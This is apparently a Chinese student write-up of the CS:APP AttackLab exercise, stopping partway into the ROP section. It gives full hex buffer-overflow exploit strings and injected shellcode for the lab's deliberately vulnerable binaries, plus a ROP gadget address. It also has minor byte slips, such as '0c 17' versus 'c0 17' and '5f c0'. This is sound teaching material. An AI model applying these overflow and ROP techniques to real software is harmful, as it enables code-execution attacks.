# 实验3：AttackLab

- [实验3：AttackLab](#%E5%AE%9E%E9%AA%8C3attacklab)
  * [Part I: Code Injection Attacks](#part-i-code-injection-attacks)
    + [Level 1](#level-1)
      - [test函数](#test%E5%87%BD%E6%95%B0)
      - [getbuf函数](#getbuf%E5%87%BD%E6%95%B0)
    + [level 2](#level-2)
      - [touch2函数](#touch2%E5%87%BD%E6%95%B0)
    + [lever 3](#lever-3)
      - [touch3函数](#touch3%E5%87%BD%E6%95%B0)
  * [Part II: Return-Oriented Programming](#part-ii-return-oriented-programming)
    + [lever 2](#lever-2)
      - [方案1：直接弹给rdi](#%E6%96%B9%E6%A1%881%E7%9B%B4%E6%8E%A5%E5%BC%B9%E7%BB%99rdi)
      - [方案2：找一个寄存器暂存，然后存入rdi](#%E6%96%B9%E6%A1%882%E6%89%BE%E4%B8%80%E4%B8%AA%E5%AF%84%E5%AD%98%E5%99%A8%E6%9A%82%E5%AD%98%E7%84%B6%E5%90%8E%E5%AD%98%E5%85%A5rdi)
    + [lever 3](#lever-3-1)
    + [参考材料](#%E5%8F%82%E8%80%83%E6%9D%90%E6%96%99)

先看一下attackLab.pdf，里面有哪些重要的信息

**首先是HEX2RAW工具**

> HEX 2 RAW expects two-digit hex values separated by one or more white spaces. So if you want to create a byte with a hex value of 0, you need to write it as 00. To create the word 0xdeadbeef you should pass “ef be ad de” to HEX 2 RAW (note the reversal required for little-endian byte ordering).

这段话要注意的一点是，按照小端排序的，比如0xdeadbeef，在输入的时候应该是ef be ad de

> See Appendix A for moreinformation on how to use HEX 2 RAW

附录A介绍了用法：

* the string “012345” could be entered in hex format as “30 31 32 33 34 35 00.”
* 支持c语言的注释风格 / * mov $0x40011f0,%rcx */
* 支持pipes、 I/O redirection、 command-line argument


**其次是绕过服务器测试**

> -q: Don’t send results to the grading server

由于没有连接cmu服务器，所以采用在后缀加上 -q，就能跳过发送服务器的操作。


**最后是测试的方式**

> When you have correctly solved one of the levels, your target program will automatically send a notification to the grading server. For example:
> unix> ./hex2raw < ctarget.l2.txt | ./ctarget
> Cookie: 0x1a7dd803
> Type string:Touch2!: You called touch2(0x1a7dd803)
> Valid solution for level 2 with target ctarget
> PASSED: Sent exploit string to server to be validated.
> NICE JOB!

将答案写在`ctarget.l2.txt`文件，然后调用`./hex2raw < ctarget.l2.txt | ./ctarget`，并且需要`-q`，绕过服务器来验证答案，当返回调用所打印的字符串，比如`Touch2!: You called touch2(0x1a7dd803)`，则说明调用正确。


**任务和分数如下图**



## Part I: Code Injection Attacks

### Level 1

**任务**

>Your task is to get CTARGET to execute the code for touch1 when getbuf executes its return statement,
>rather than returning to test. Note that your exploit string may also corrupt parts of the stack not directly related to this stage, but this will not cause a problem, since touch1 causes the program to exit directly.

从文档的介绍，我们理解任务是通过test函数调用getbuf方法，返回的时候执行touch1，而不是继续执行test函数。

**有一些建议:**

> • All the information you need to devise your exploit string for this level can be determined by exam-ining a disassembled version of CTARGET . Use objdump -d to get this dissembled version.
> • The idea is to position a byte representation of the starting address for touch1 so that the ret instruction at the end of the code for getbuf will transfer control to touch1.
> • Be careful about byte ordering.
> • You might want to use GDB to step the program through the last few instructions of getbuf to make sure it is doing the right thing.
> • The placement of buf within the stack frame for getbuf depends on the value of compile-time constant BUFFER_SIZE, as well the allocation strategy used by GCC . You will need to examine the disassembled code to determine its position

* 使用`objdump -d`得到汇编代码
* 返回位置定位到touch1的起始地址
* 注意字节大小端排序
* 可以使用GDB验证指令执行步骤
* 检查反汇编代码，确定栈帧中常量BUFFER_SIZE的值。

#### test函数

```assembly
0000000000401968 <test>:
  401968:	48 83 ec 08          	sub    $0x8,%rsp
  40196c:	b8 00 00 00 00       	mov    $0x0,%eax
  401971:	e8 32 fe ff ff       	callq  4017a8 <getbuf>
  401976:	89 c2                	mov    %eax,%edx
  401978:	be 88 31 40 00       	mov    $0x403188,%esi
  40197d:	bf 01 00 00 00       	mov    $0x1,%edi
  401982:	b8 00 00 00 00       	mov    $0x0,%eax
  401987:	e8 64 f4 ff ff       	callq  400df0 <__printf_chk@plt>
  40198c:	48 83 c4 08          	add    $0x8,%rsp
  401990:	c3                   	retq   
```

这里调用了getbuf函数。我们可以看下0x403188内容是什么。



这段话很熟悉，跟正常返回结果得到的话是一样的。



所以我们看下怎么通过getbuf跳过test后续的内容

#### getbuf函数

```assembly
00000000004017a8 <getbuf>:
  4017a8:	48 83 ec 28          	sub    $0x28,%rsp
  4017ac:	48 89 e7             	mov    %rsp,%rdi
  4017af:	e8 8c 02 00 00       	callq  401a40 <Gets>
  4017b4:	b8 01 00 00 00       	mov    $0x1,%eax
  4017b9:	48 83 c4 28          	add    $0x28,%rsp
  4017bd:	c3                   	retq   
```

`sub    $0x28,%rsp`分配了大小为40字节的栈空间，回顾课本的知识

如果分配了24字节大小的栈，输入了7个字符，如下图所示



则超出栈帧的部分，会溢出，破坏返回地址的内容。

所以，我们要构造一个，输入了40个字节的内容，后面位置40-47的返回地址写入touch1的起始地址。也就是0x4017c0

由于使用hex2raw会用小端的顺序解析。所以返回地址应该是`0c 17 40 00 00 00 00 00`，而前面40个字节可以随意填写

故可以构造一个touch1.txt的文件，内容如下

```shell
00 00 00 00 00 00 00 00   
00 00 00 00 00 00 00 00   
00 00 00 00 00 00 00 00   
00 00 00 00 00 00 00 00   
00 00 00 00 00 00 00 00   
c0 17 40 00 00 00 00 00   
```

> 第一行对应0-7字节
>
> 第二行对应8-15字节
>
> 第三行对应16-23字节
>
> 第四行对应24-31字节
>
> 第五行对应32-39字节
>
> 第六行对应40-47字节，即返回地址

验证如下：



### level 2

**代码**：

```c
1 void touch2(unsigned val)
2 {
3 vlevel = 2; / * Part of validation protocol
* /
4 if (val == cookie) {
5 printf("Touch2!: You called touch2(0x%.8x)\n", val);
6 validate(2);
7 } else {
8 printf("Misfire: You called touch2(0x%.8x)\n", val);
9 fail(2);
10 }
11 exit(0);
12 }
```

**任务**：

> Your task is to get CTARGET to execute the code for touch2 rather than returning to test. In this case, however, you must make it appear to touch2 as if you have passed your cookie as its argument.

执行touch2，并且让传参val等于参数cookie

**建议：**

> • You will want to position a byte representation of the address of your injected code in such a way that ret instruction at the end of the code for getbuf will transfer control to it.
> • Recall that the first argument to a function is passed in register %rdi.
> • Your injected code should set the register to your cookie, and then use a ret instruction to transfer control to the first instruction in touch2.
> • Do not attempt to use jmp or call instructions in your exploit code. The encodings of destination addresses for these instructions are difficult to formulate. Use ret instructions for all transfers of control, even when you are not returning from a call.
> • See the discussion in Appendix B on how to use tools to generate the byte-level representations of instruction sequences.

* 用getbuf同样在ret位置用地址定位
* 参数1存在%rdi寄存器
* 寄存器设置为cookie值
* 不要试图用jmp或call调用在有漏洞的代码中
* 参考附录B

**附录B**

可以将汇编指令通过gcc、  objdump得到16进制字节码。

输入68 ef cd ab 00 48 83 c0 11 89 c2，实际上是执行了

```ass
68 ef cd ab 00 /* pushq $0xabcdef */
48 83 c0 11 /* add $0x11,%rax */
89 c2 /* mov %eax,%edx */
```

#### touch2函数

```assembly
00000000004017ec <touch2>:
  4017ec:	48 83 ec 08          	sub    $0x8,%rsp
  4017f0:	89 fa                	mov    %edi,%edx
  4017f2:	c7 05 e0 2c 20 00 02 	movl   $0x2,0x202ce0(%rip)        # 6044dc <vlevel>
  4017f9:	00 00 00 
  4017fc:	3b 3d e2 2c 20 00    	cmp    0x202ce2(%rip),%edi        # 6044e4 <cookie>
  401802:	75 20                	jne    401824 <touch2+0x38>
  401804:	be e8 30 40 00       	mov    $0x4030e8,%esi
  401809:	bf 01 00 00 00       	mov    $0x1,%edi
  40180e:	b8 00 00 00 00       	mov    $0x0,%eax
  401813:	e8 d8 f5 ff ff       	callq  400df0 <__printf_chk@plt>
  401818:	bf 02 00 00 00       	mov    $0x2,%edi
  40181d:	e8 6b 04 00 00       	callq  401c8d <validate>
  401822:	eb 1e                	jmp    401842 <touch2+0x56>
  401824:	be 10 31 40 00       	mov    $0x403110,%esi
  401829:	bf 01 00 00 00       	mov    $0x1,%edi
  40182e:	b8 00 00 00 00       	mov    $0x0,%eax
  401833:	e8 b8 f5 ff ff       	callq  400df0 <__printf_chk@plt>
  401838:	bf 02 00 00 00       	mov    $0x2,%edi
  40183d:	e8 0d 05 00 00       	callq  401d4f <fail>
  401842:	bf 00 00 00 00       	mov    $0x0,%edi
  401847:	e8 f4 f5 ff ff       	callq  400e40 <exit@plt>
```

这段的重点在于找到touch2函数起始地址，作为跳转的起始位置。也就是`0x4017ec`

**回顾课本**，在调用函数的时候，我们会将下一个指令的位置压入栈中，执行结束的时候调用ret，返回栈地址位置。



由于需要通过寄存器rdi将cookie的值赋值val，由于建议中不推荐使用call和jmp，所以可以采用push和ret的方式实现。

我们可以写一段汇编代码。

```assembly
pushq  $0x4017ec          /*压入touch2函数的起始位置，ret的时候会返回touch2 */
mov    $0x59b997fa,%edi   /*将cookie值赋值给rdi寄存器，也就是参数val */
ret 					  /*返回栈首，就是刚压入的0x4017ec地址
```

通过附录2的提示，我们调用命令，得到字节码



```assembly

touch2.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:	68 ec 17 40 00       	pushq  $0x4017ec
   5:	bf fa 97 b9 59       	mov    $0x59b997fa,%edi
   a:	c3                   	retq   

```

可以得到字节码序列为`68 ec 17 40 00 bf fa 97 b9 59 c3`

接下来是如何去调用这段字节码，我们可以观察getbuf函数

```assembly
00000000004017a8 <getbuf>:
  4017a8:	48 83 ec 28          	sub    $0x28,%rsp
  4017ac:	48 89 e7             	mov    %rsp,%rdi
  4017af:	e8 8c 02 00 00       	callq  401a40 <Gets>
  4017b4:	b8 01 00 00 00       	mov    $0x1,%eax
  4017b9:	48 83 c4 28          	add    $0x28,%rsp
  4017bd:	c3                   	retq   
```

先是分配了大小为40字节的栈空间，也就是我们输入的字符串位置，如果我们将字节码放在输入串中，只要ret的位置在栈首即可调用，如下图所示。



使用gdb，找到指令`mov    %rsp,%rdi`的地址`0x4017ac`，此时%rsp的地址。并且在执行ret之前进行注入，作为ret的值。



此时rsp的地址为`0x5561dc78` ，用小端表示为 78 dc 61 55

所以最终touch2.txt的答案为

```
68 ec 17 40 00 bf fa 97 
b9 59 c3 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
```

验证答案正确



### lever 3

> Phase 3 also involves a code injection attack, but passing a string as argument.

还需要传字符串作为参数

**任务:** 你的任务`getbuf`之后执行`touch3`而不是继续执行test。你必须要传递`cookie`字符串作为参数

一些小建议

- 你需要在利用缓冲区溢出的字符串中包含`cookie`的字符串表示形式。该字符串应该有8个十六进制数组成。注意没有前导0x
- 注意在c语言中的字符串表示会在末尾处加一个`\0`
- 您注入的代码应将寄存器％rdi设置为此字符串的地址
- 调用函数hexmatch和strncmp时，它们会将数据压入堆栈，从而覆盖存放`getbuf`使用的缓冲区的内存部分。 因此，您需要注意在哪里放置您的`Cookie`字符串

#### touch3函数

```assembly
00000000004018fa <touch3>:
  4018fa:	53                   	push   %rbx
  4018fb:	48 89 fb             	mov    %rdi,%rbx
  4018fe:	c7 05 d4 2b 20 00 03 	movl   $0x3,0x202bd4(%rip)        # 6044dc <vlevel>
  401905:	00 00 00 
  401908:	48 89 fe             	mov    %rdi,%rsi
  40190b:	8b 3d d3 2b 20 00    	mov    0x202bd3(%rip),%edi        # 6044e4 <cookie>
  401911:	e8 36 ff ff ff       	callq  40184c <hexmatch>
```

这里的重点还是函数起始位置`0x4018fa`

调用hexmatch就是配对字符串的16进制数是否相等，把cookie的数值进行16进制转换，如下

```
5 9 b 9 9 7 f a
35 39 62 39 39 37 66 61 
```

接下来要考虑将这段字符串放在哪个位置，由于hexmatch的代码中进行了char cbuf[110]的内存分配，如果将字符串放在非text帧位置，由于内存分配被覆盖掉。

所以考虑放在text帧，其中text帧的第一段作为返回地址，执行类似level2的操作。存放rsp的地址，即`0x5561dc78`  小端表示为 `78 dc 61 55 00 00 00 00`

那么往后推，就可以将ret的后一段地址作为字符串存放的位置。这样可以避免被覆盖，进行注入。



先找到getbuf当前栈所在的位置，为0x5561dca0，这个位置作为返回值地址，而cookie字符串地址采用text帧的下一个地址，0x5561dca8。

为了让val读取到字符串，应将0x5561dca8地址赋值给rdi寄存器作为第一个参数。

```assembly
push $0x4018fa
mov  $0x5561dca8,%edi
ret
```

经过gcc和objdump得到字节码

```assembly

touch3.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:	68 fa 18 40 00       	pushq  $0x4018fa
   5:	bf a8 dc 61 55       	mov    $0x5561dca8,%edi
   a:	c3                   	retq   

```

得到的字符串为 68 fa 18 40 00 bf a8 dc 61 55 c3 

最终构造的格式如下图：

.png)

rsp栈帧执行的操作为

```
68 fa 18 40 00 bf a8 dc 
61 55 c3 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00   
35 39 62 39 39 37 66 61 
```

其中1-5行为分配的地址，6行为返回值地址，7行为cookie地址。

最后验证结果通过



## Part II: Return-Oriented Programming

> • It uses randomization so that the stack positions differ from one run to another. This makes it impos-sible to determine where your injected code will be located.
> • It marks the section of memory holding the stack as nonexecutable, so even if you could set the program counter to the start of your injected code, the program would fail with a segmentation fault.

* 随机化，栈帧位置每次运行不同，不可能确定注入位置
* 限制了可执行代码区域

具体解释可以看下面的截图（截图来自于hit的csapp第三章ppt）


ROP方式，把栈中放上很多地址，而每次ret都会到一个Gadget（小的代码片段，并且会ret），这样就可以形成一个程序链。通过将程序自身(`./rtarget`)的指令来完成我们的目的。



### lever 2

> For Phase 4, you will repeat the attack of Phase 2, but do so on program RTARGET using gadgets from your gadget farm. You can construct your solution using gadgets consisting of the following instruction types, and using only the first eight x86-64 registers (%rax–%rdi).

对于第4阶段，您将重复第2阶段的攻击，但使用来自您的小工具的程序RTARGET进行此攻击。 您可以使用由以下指令类型组成的小工具（gadgets）来构造解决方案，并且仅使用前八个x86-64寄存器（％rax–％rdi）。

> movq : The codes for these are shown in Figure 3A.
> popq : The codes for these are shown in Figure 3B.
> ret : This instruction is encoded by the single byte 0xc3.
> nop : This instruction (pronounced “no op,” which is short for “no operation”) is encoded by the single
> byte 0x90. Its only effect is to cause the program counter to be incremented by 1.



**一些建议：**

> • All the gadgets you need can be found in the region of the code for rtarget demarcated by the
> functions start_farm and mid_farm.
> • You can do this attack with just two gadgets.
> • When a gadget uses a popq instruction, it will pop data from the stack. As a result, your exploit
> string will contain a combination of gadget addresses and data.

**案例：**




首先明确lever2的任务，

1. 将%rdi设置为cookie
2. 执行touch2

符合要求的汇编代码如下

```assembly
pushq  $0x4017ec
mov    $0x59b997fa,%edi
ret
```

由于源汇编代码并不存在`pushq  $0x4017ec`和`mov    $0x59b997fa,%edi`所以只能通过工具构造。

**整个流程是遇到ret，进行弹栈，找到pop位置，将地址存入rdi寄存器，执行c3弹栈，跳转到下一个地址操作。然后用mov将寄存器内容存入rdi，执行c3弹栈跳转到touch2起始位置。**

#### 方案1：直接弹给rdi

```assembly
pop rdi
ret #touch2
```

这个方案比较简单，找到`5f c0`即可，查找源码在这一段找到了相关字节码。

```assembly
  402b18:	41 5f                	pop    %r15
  402b1a:	c3                   	retq  
```

地址为`0x402b19`

最终栈帧结构如下图

